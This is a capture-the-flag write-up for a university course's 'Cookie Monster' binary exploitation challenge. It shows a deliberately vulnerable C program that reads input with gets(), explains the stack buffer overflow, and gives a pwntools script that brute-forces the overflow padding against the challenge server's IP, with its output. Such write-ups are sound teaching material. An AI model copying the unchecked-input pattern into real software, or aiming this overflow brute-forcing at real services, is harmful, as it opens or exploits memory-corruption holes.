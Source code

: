 ```yaml
---
title: "Tutor CTF: Cookie Monster"
description: (200 points) Binary Exploitation Challenge
author: Kevin Zhu
public: true
uploadDate: 2022-04-08 23:15+11:00
lastModified: 2022-04-08 23:15+11:00
notes: ''
prevPage: 30_tutorctf_secedu
nextPage: 32_tutorctf_shimmy
tags:
- capture the flag
- tutor ctf
- comp6841
menu:
  groups: []
  submenus: []
name: 31_tutorctf_cookie_monster
---
```


_Contest Source: [COMP6[84]41 CTF](https://www.comp6841.com/challenges)_

> _Note that all flags have been replaced with "COMP6841{REDACTED}". This is to discourage you from just blindly submitting the final answer, and to encourage you to follow along and learn something along the way._

## Exploration

We are given a netcat IP address and a exploitable buffer code. Let's look at it:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define BUFFER_SIZE 16
#define FLAG_SIZE 50
#define QUOTE_SIZE 4

char flag[FLAG_SIZE];
char quotes[QUOTE_SIZE][100] = {"NOT ENOUGH COOKIES", "I'M STILL HUNGRY", "MORE", "GRRR GIVE ME COOKIES"};

void oppsie(void) {
    char c1 = 1;
    char c2 = 1;
    char c3 = 1;
    char c4 = 1;
    char c5 = 1;
    char c6 = 1;
    char buffer[BUFFER_SIZE];
    gets(buffer);

    if (c1 == 'C' && c2 == 'O' && c3 == 'O' && c4 == 'K' && c5 == 'I' && c6 == 'E') {
        printf("%s\n", flag);
        fflush(stdout);
        exit(1);
    }
}

void cry(int counter) {
    printf("%s", quotes[counter % QUOTE_SIZE]);
    for (int i = counter*2; i > 0; i--) {
        printf("!");
    }
    printf("\n");
}

int main(int argc, char **argv){

    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("Missing flag.txt\n");
        exit(0);
    }

    fgets(flag, FLAG_SIZE, f);

    printf("HI, I'M THE COOKIE MONSTER AND I LOVE COOKIES\n");

    int counter = 0;
    while (1) {
        printf("Feed the cookie monster: ");
        fflush(stdout);
        oppsie();
        if (counter > 0) {
            cry(counter);
        }
        counter++;
    }
    return 0;
}
```

So right off the bat, it looks like the `oppsie` function is going to be pretty important, since if we can somehow get the variables `c1` to `c6` equal to "COOKIE", then we can get the flag. Unfortunately, we have no way of changing them from their initial values, so it seems impossible.

However, we can exploit a buffer overflow in the `gets(buffer)` line. `gets` is insecure, and does not check the size of the buffer when scanning in. This means that if we enter a string that is longer than BUFFER_SIZE (16 in this case), we will start to overflow our buffer and overwrite values in the stack. Hence, we can enter something like "AAAAAAAAAAAAAAAAEIKOOC" (16 A's, followed by COOKIE in reverse because we overwrite the variables in reverse order) in order to overwrite the next variables on the stack, which of course happen to be `c6`, `c5`, `c4`, etc.

## Bruteforcing with Pwntools

Though in reality, it's not all that simple. Because of how compilers will align variable addresses, we're not guaranteed that we need exactly 16 A's. It can be a little bit more than that. Thus, it's useful to write a script that will try all sorts of different numbers of A. `pwntools` provides a really nice tool that allows us to quickly connect to such a netcat server and brute force all the different numbers until we find one that works. Here's a very crude implementation that crashes as soon as it finds the correct number of A's:

```python
from pwn import *

conn = remote("13.210.180.94", 10001)
for i in range(16, 30):
    conn.recvuntil(b'Feed the cookie monster: ')
    s = b'A'*i+b'EIKOOC\n'
    conn.send(s)
    print(i, s)

conn.close()
```

Running it, we get:

```term
$ python3 get.py
16 b'AAAAAAAAAAAAAAAAEIKOOC\n'
17 b'AAAAAAAAAAAAAAAAAEIKOOC\n'
18 b'AAAAAAAAAAAAAAAAAAEIKOOC\n'
19 b'AAAAAAAAAAAAAAAAAAAEIKOOC\n'
20 b'AAAAAAAAAAAAAAAAAAAAEIKOOC\n'
21 b'AAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
22 b'AAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
23 b'AAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
24 b'AAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
25 b'AAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
26 b'AAAAAAAAAAAAAAAAAAAAAAAAAAEIKOOC\n'
Traceback (most recent call last):
  File "attack.py", line 5, in <module>
    conn.recvuntil(b'Feed the cookie monster: ')
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 333, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 105, in recv
    return self._recv(numb, timeout) or b''
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 183, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/Library/Frameworks/Python.framework/Versions/3.7/lib/python3.7/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
[*] Closed connection to 13.210.180.94 port 10001
```

Which tells us that 26 A's caused the program to exit without giving us another "Feed the cookie monster:" message. In other words, we've found the right number of A's to trigger the `oppsie` code! We can now manually enter in the correct string to get the flag, or alternately run pwntools in DEBUG mode so that it returns the final message before the program crashed.

```term
$ python3 get.py DEBUG
```
